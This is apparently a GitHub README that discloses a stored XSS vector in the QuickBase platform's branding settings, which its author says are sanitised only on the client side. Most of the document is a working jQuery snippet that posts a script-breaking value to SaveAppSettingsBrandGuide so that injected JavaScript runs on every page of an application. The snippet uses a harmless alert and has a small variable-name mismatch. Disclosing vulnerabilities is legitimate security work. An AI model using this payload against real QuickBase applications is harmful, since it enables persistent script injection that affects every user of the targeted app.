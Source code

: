 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!* I see this being way more useful then nefarious.

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

```
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```
